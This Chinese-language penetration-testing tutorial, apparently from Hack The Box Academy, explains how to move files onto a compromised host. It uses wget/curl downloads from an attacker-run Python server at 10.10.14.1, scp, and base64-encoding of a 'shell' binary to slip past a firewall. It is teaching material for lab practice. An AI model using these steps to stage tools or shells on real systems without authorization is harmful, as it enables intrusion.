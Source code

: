 ```yaml
---
tag: 渗透测试入门
---
```


# 文件传输

---

在任何渗透测试过程中，我们很可能需要将文件传输到远程服务器，例如枚举脚本或利用工具，或将数据传输回我们的攻击主机。虽然像Metasploit与Meterpreter shell这样的工具允许我们使用 `Upload` 命令上传文件，但我们需要学习使用标准反向 shell 进行文件传输的方法。

---

## 使用 wget

有许多方法可以实现这一点。其中一种方法是在我们的机器上运行一个 [Python HTTP 服务器](https://developer.mozilla.org/en-US/docs/Learn/Common_questions/set_up_a_local_testing_server)，然后使用 `wget` 或 `cURL` 在远程主机上下载文件。首先，我们进入包含需要传输的文件的目录，并在其中运行一个 Python HTTP 服务器：

```Plaintext
jw0610a@htb[/htb]$ cd /tmp
jw0610a@htb[/htb]$ python3 -m http.server 8000

正在监听 0.0.0.0 的端口 8000 (http://0.0.0.0:8000/) ...
```

现在我们在我们的机器上设置了一个监听服务器，我们可以在具有代码执行权限的远程主机上下载文件：

```Plaintext
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
正在保存至: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 已保存 'linenum.sh' [14337/14337]
```

请注意，我们使用了我们的 IP 地址 `10.10.14.1` 和我们的 Python 服务器运行的端口 `8000`。如果远程服务器没有安装 `wget`，我们可以使用 `cURL` 来下载文件：

```Plaintext
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

请注意，我们使用了 `-o` 标志来指定输出文件名。

---

## 使用 SCP

另一种传输文件的方法是使用 `scp`，前提是我们已经在远程主机上获得了 SSH 用户凭据。我们可以按如下方式执行：

```Plaintext
jw0610a@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh
```

请注意，在 `scp` 后面指定了本地文件名，并且在 `:` 后面指定了远程目录。

---

## 使用 Base64

在某些情况下，我们可能无法传输文件。例如，远程主机可能有防火

墙保护，阻止我们从我们的机器上下载文件。在这种情况下，我们可以使用一个简单的技巧，将文件以 [base64](https://linux.die.net/man/1/base64) 格式进行编码，然后将 `base64` 字符串粘贴到远程服务器上进行解码。例如，如果我们想要传输一个名为 `shell` 的二进制文件，我们可以按以下方式对其进行 `base64` 编码：

```Plaintext
jw0610a@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU
```

现在，我们可以复制这个 `base64` 字符串，进入远程主机，并使用 `base64 -d` 进行解码，然后将输出导入到一个文件中：

```Plaintext
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

---

## 验证文件传输

为了验证文件的格式，我们可以对其运行 [file](https://linux.die.net/man/1/file) 命令：

```Plaintext
user@remotehost$ file shell
shell: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, no section header
```

正如我们所看到的，当我们在 `shell` 文件上运行 `file` 命令时，它显示它是一个 ELF 二进制文件，这意味着我们成功地传输了它。为了确保我们在编码/解码过程中没有损坏文件，我们可以检查其 MD5 哈希值。在我们的机器上，我们可以对其运行 `md5sum`：

```Plaintext
jw0610a@htb[/htb]$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

现在，我们可以转到远程服务器并对我们传输的文件运行相同的命令：

```Plaintext
user@remotehost$ md5sum shell

321de1d7e7c3735838890a72c9ae7d1d shell
```

正如我们所看到的，两个文件具有相同的 MD5 哈希值，这意味着文件已正确传输。还有其他各种传输文件的方法。您可以查看 [File Transfers](https://academy.hackthebox.com/module/details/24) 模块，以获取更详细的文件传输学习。